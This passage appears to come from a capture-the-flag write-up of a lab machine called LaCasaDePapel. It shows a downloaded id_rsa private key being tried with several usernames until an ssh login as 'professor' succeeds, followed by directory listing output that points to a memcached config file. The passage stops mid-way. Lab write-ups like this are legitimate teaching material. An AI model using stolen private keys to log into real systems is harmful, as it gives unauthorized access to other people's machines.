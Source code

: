 ![idrsa](/assets/img/lacasadepapel/lacasa-download-idrsa.png)


<hr width="300" size="10">


Trying to login via ssh as berlin fails with this id_rsa, trying it with the other usernames we find it does work
with 'professor'.


```
ssh -i id_rsa professor@10.10.10.131
 
 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) groups=1002(professor)
lacasadepapel [~]$ ls -la
total 24
drwxr-sr-x    4 professo professo      4096 Mar  6  2019 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 root     root            88 Jan 29  2019 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
lacasadepapel [~]$ 

lacasadepapel [~]$ cat memcached.ini
[program:memcached]
```